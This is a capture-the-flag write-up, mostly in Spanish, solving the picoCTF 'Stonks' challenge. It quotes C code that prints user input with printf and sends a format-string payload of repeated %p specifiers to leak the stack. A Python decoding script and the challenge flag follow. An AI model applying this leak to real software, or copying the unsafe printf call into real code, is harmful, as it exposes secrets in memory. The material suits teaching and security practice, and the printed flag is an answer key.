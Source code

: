 ## Descripción
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c) `nc mercury.picoctf.net 6989`

## Pistas
- Okay, maybe I'd believe you if you find my API key.

## Solución
Al rastrear la ejecución a través de la primera opción, detectamos un bloque interesante dentro de la `buy_stonks()`función:

```c()
char *user_buf = malloc(300 + 1); printf("What is your API token?\n"); scanf("%300s", user_buf); printf("Buying stonks with token:\n"); printf(user_buf);
```

- Vulnerabilidad de cadena de formato en la mano, profundicemos un poco más en el código. Mirando cerca del comienzo de la `buy_stonks()`función, notamos lo que parece ser el archivo de bandera que se carga y su contenido se copia en un búfer en la pila

```bash()
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p
Buying stonks with token:
0x97903b0__0x804b000__0x80489c3__0xf7f2ed80__0xffffffff__0x1__0x978e160__0xf7f3c110__0xf7f2edc7__(nil)__0x978f180__0x1__0x9790390__0x97903b0__0x6f636970__0x7b465443__0x306c5f49__0x345f7435__0x6d5f6c6c__0x306d5f79__0x5f79336e__0x35386130__0x32356533__0xffbb007d__0xf7f69af8__0xf7f3c440__0x50fbaa00__0x1
Portfolio as of Mon May 15 18:36:42 UTC 2023


1 shares of S
1 shares of I
10 shares of OZ
10 shares of DENR
6 shares of G
1613 shares of GKS
Goodbye!

```

- Los guiones bajos son simplemente para hacer que la salida sea más fácil de analizar
```
picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}
```

- Vemos lo que parece ASCII comenzando en el lugar 15. Si descodificamos rápidamente los cuatro bytes (teniendo en cuenta el little-endian), obtenemos la cadena "pico". Podemos copiar todo, desde el primer bloque de bytes ASCII hasta el bloque que contiene un byte nulo y hacer un poco de magia de Python:

```python()
from binascii import unhexlify

flag = b"".join(
    [
        unhexlify("6f636970")[::-1],
        unhexlify("7b465443")[::-1],
        unhexlify("306c5f49")[::-1],
        unhexlify("345f7435")[::-1],
        unhexlify("6d5f6c6c")[::-1],
        unhexlify("306d5f79")[::-1],
        unhexlify("5f79336e")[::-1],
        unhexlify("35386130")[::-1],
        unhexlify("32356533")[::-1],
        unhexlify("007d")[::-1],
    ]
).decode()

print(flag)
```

```
picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}
```

## Notas adicionales
- Sin notas adicionales 

## Referencias
- [Stonks](https://www.c0dedead.io/picoctf-2021-stonks/)